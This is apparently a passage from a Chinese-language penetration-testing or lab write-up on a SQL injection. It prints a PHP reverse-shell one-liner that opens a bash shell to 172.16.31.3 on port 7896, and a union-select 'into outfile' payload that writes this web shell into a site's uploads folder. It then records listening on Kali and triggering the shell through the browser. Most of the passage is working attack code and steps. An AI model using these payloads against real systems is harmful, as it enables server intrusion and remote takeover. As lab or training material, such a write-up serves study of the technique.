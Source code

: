 ```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.16.31.3/7896 0>&1'"); ?>
```

payload:

```bash
2" union select "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/172.16.31.3/7896 0>&1'\"); ?>",2,3 into outfile "/var/www/html/uploads/reverse.php" -- -
```

> 特别注意由于php语句是在双引号内，因此php语句中出现的双引号需要加\进转义。

![image-20240622182243491](./imgs/image-20240622182243491.png)



kali监听端口`7896`

浏览器访问`reverse.php`，反弹成功

![image-20240622182328377](./imgs/image-20240622182328377.png)



### sqlmap梭哈
